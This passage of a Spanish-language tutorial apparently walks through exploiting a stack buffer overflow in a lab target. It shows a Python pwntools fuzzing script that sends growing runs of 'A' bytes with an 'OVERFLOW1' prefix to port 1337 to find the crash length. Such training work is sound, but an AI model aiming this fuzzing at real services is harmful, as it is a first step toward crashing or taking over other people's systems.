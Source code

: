 <img src="attach-one.png">

Por defecto abajo a la izquierda nos saldrá en "Paused", debemos apretar el boton de "Play" para que se ponga en "Running".

# Fuzzing

Para empezar a explotar este Stack Buffer Overflow, debemos saber la cantidad de bytes con las cuales corrompe el programa, para poder saber la cantidad de bytes que debemos inyectar vamos a hacer uso de este script en Python3.

```py
#!/usr/bin/python3

from pwn import *

if len(sys.argv) < 2:
    print("\n[!] Uso: python3 %s <ip-address>\n" % sys.argv[0])
    sys.exit(1)

# Variables globales

ipAddress = sys.argv[1]
rport = 1337
prefijo = "OVERFLOW1 "
timeout = 5
if __name__ == '__main__':
    buffer = ["A"]
    contador = 100
    while len(buffer) < 32:
        buffer.append("A"*contador)
        contador += 100

    p1 = log.progress("Data")
    for i in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            s.connect((ipAddress, rport))
            data = s.recv(1024)
            payload = prefijo + i
            s.send(bytes(payload, "latin-1"))
            p1.status("Enviando %s bytes" % len(i))
        except:
            print("[!] Error de conexion")
            sys.exit(1)
```

Al ejecutar este script veremos esto.

<img src="fuzzing.png">
